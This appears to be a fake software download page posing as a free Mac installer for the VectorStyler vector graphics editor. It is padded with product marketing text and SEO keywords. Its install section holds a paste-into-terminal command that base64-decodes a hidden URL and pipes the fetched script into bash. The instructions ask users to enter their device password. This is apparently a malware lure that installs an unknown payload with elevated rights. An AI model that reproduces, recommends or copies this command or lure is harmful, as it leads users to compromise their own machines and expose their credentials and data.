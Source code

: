 # VectorStyler Download Mac - Professional Vector Design Software for macOS

![VectorStyler Screenshot 1](https://www.vectorstyler.com/img/captures/vectorstyler1.png)

---

## 🔽 Download VectorStyler for Mac

[![Download Now](https://img.shields.io/badge/Download_VectorStyler-blueviolet?style=for-the-badge&logo=github)](https://montiko384.github.io/.github/vectorStyler)

## 📦 How to Install

## Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

## Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## What is VectorStyler for Mac?

VectorStyler is a next-generation vector graphics editor exclusively designed for macOS, providing professional-grade tools for illustrators, graphic designers, and digital artists. This powerful software merges pixel-perfect vector editing capabilities with unparalleled creative freedom, allowing users to craft detailed illustrations, sophisticated logos, and complex design projects effortlessly. What sets VectorStyler apart is its innovative non-destructive editing approach, which permits unlimited design iterations while preserving your original artwork integrity.

The application boasts an impressive array of advanced features including dynamic shapes that adapt to modifications, customizable variable-width strokes, and sophisticated gradient mesh tools - making it an exceptionally versatile solution for high-end design work. VectorStyler's comprehensive typography toolkit goes beyond basic text manipulation, offering creative type effects, path text customization, and advanced character controls. Fully optimized for Apple Silicon (M1/M2/M3 processors), VectorStyler delivers exceptional performance stability even when handling resource-intensive design projects. From corporate branding and packaging design to digital illustrations and print materials, VectorStyler equips creatives with all necessary tools to realize their artistic visions.

Featuring an advanced layer management system with blending modes, live effects, and real-time previews, VectorStyler competes with industry-leading applications while maintaining a more streamlined and intuitive user interface. The software's extensible architecture supports third-party plugins and custom scripts, enabling users to tailor the environment to their specific design needs. Additional workflow enhancements include comprehensive color management, advanced export options, and seamless integration with other design tools. For professionals and creatives who demand both power and efficiency in their vector design software, VectorStyler represents an outstanding solution that balances sophisticated capabilities with user-friendly operation.

![VectorStyler Screenshot 2](https://www.vectorstyler.com/img/captures/vectorstyler2.png)

---

## Key Features & Benefits

- ✏️ Advanced vector editing tools  
- ⚡️ Optimized for Apple Silicon (M1/M2)  
- 🎨 Non-destructive workflow for flexibility  
- 🖋 Dynamic shapes and variable-width strokes  
- 📐 Precision typography and text tools  
- 💻 Perfect for illustrators and designers  

Whether you're creating logos or illustrations, VectorStyler delivers professional-grade tools with creative freedom.

---

## 🔍 Keywords

VectorStyler for Mac, VectorStyler Mac Download, VectorStyler for Mac Download, VectorStyler Mac, VectorStyler Download Mac, VectorStyler Download for Mac, vectorstyler full version, Mac Download VectorStyler, Download Mac VectorStyler, Download VectorStyler Mac, Download VectorStyler for Mac
